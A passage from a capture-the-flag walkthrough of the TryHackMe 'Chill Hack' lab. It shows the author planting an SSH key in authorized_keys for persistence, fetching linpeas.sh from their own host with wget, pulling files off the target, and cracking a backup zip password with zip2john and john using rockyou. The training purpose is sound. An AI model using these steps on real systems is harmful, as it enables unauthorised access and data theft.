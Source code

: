 Embed it on `authorized_keys` on target:

`echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDpKEzQTcHOQwitnWRCnq8iMOt9gaWtk7VuCxvvl5N9X root@kali" > authorized_keys`

![[TryHackMe/Chill Hack/images/33.png]]

Let me add on `authorized_keys` & give `400` permission on the file.

Give the permission on `private key`
`chmod 400 apaar`

Connect with this private key to target host
`ssh -i apaar 10.10.119.114`

![[TryHackMe/Chill Hack/images/34.png]]

I do not know why `linpeas` disappear ,but let me download again:

`apaar@ubuntu:/tmp$ wget http://10.14.92.189:3000/linpeas.sh`

Then it again stuck...

After a couple of minutes I found really interesting `image` file named hacker-with-laptop then I decided to download it:

![[TryHackMe/Chill Hack/images/35.png]]

On the target I opened `python3` local web server then downloaded through `wget` to my machine.

![[TryHackMe/Chill Hack/images/36.png]]



![[TryHackMe/Chill Hack/images/37.png]]

Even though, I did not give any password, `backup` archive is extracted successfully.

backup requires password:

┌──(root㉿kali)-[/home/kali]
└─# unzip backup.zip
Archive:  backup.zip
[backup.zip] source_code.php password: 

To crack zip file utilizing `zip2john` is a great approach:

`zip2john backup.zip > hash.txt`

run the `john` to crack pass:

`john --format=pkzip hash.txt`

John's default wordlist did not find anything ,so I used `rockyou`.

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=pkzip hash.txt`

![[TryHackMe/Chill Hack/images/38.png]]

let's unzip it !
